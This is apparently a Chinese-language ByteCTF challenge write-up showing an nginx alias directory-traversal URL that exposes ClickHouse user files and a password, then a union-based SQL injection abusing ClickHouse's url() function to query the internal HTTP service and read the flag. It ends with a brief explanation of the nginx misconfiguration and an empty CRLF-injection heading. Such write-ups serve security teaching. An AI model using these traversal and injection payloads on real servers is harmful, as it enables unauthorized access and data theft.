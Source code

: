 第一步：

nginx配置不当导致目录穿越

http://39.105.175.150:30001/files../var/lib/clickhouse/access/

有个sql文件 下载下来后拿到数据库密码


ATTACH USER user_01 IDENTIFIED WITH plaintext_password BY 'e3b0c44298fc1c149afb';

ATTACH GRANT SELECT ON ctf.* TO user_01;

通过其自带内网的http服务登录user_01拿到flag

```php
http://39.105.175.150:30001/?id=1 union all select extractTextFromHTML(html) FROM url('http://127.0.0.1:8123/?user=user_01%26password=e3b0c44298fc1c149afb%26query=select%2520*%2520from%2520ctf.flag',RawBLOB,'html String');--
# ByteCTF{e3b0c44298fc1c149afbf4c8}
```

知识点：

ngnix配置不当导致目录穿越

Nginx在配置别名（Alias）的时候，如果忘记加/，将造成一个目录穿越漏洞。
错误的配置文件示例（原本的目的是为了让用户访问到/home/目录下的文件）：

利用方法：

![](https://img-blog.csdnimg.cn/20181116174450974.png)

穿越上层目录

![](https://img-blog.csdnimg.cn/20181116174455219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

漏洞修复

![](https://img-blog.csdnimg.cn/20181116174504524.png)

![](https://img-blog.csdnimg.cn/20181116174507397.png)

crlf注入：


